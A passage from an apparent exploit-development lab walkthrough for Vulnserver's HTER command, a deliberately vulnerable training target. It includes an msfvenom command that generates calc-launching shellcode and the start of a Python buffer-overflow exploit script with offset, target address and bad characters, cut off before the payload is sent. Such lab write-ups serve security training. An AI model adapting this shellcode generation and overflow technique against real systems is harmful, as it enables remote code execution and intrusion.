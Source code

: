 ![JMP ESP](/assets/img/vulnserver_hter_50_jmp_esp.png)


## Pop Calc

Msfvenom once again creates the necessary shellcode for us:

```bash
$ msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A' -f python -v payload
```

Once you run it through our converter function the shellcode becomes usable:

```python
#!/usr/bin/env python3
# HTER
# Step 6 - pop calc
import socket

def bytes_to_hexbytestring(b):
    hexstring = b.hex()
    bytestring = hexstring.encode("utf-8")
    return bytestring

offset = 1020
size = 2048
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ] # found badchars to exclude. We can assume 0x00 and 0x0a (new line) are bad chars without trying
NOP = b"\x90"

```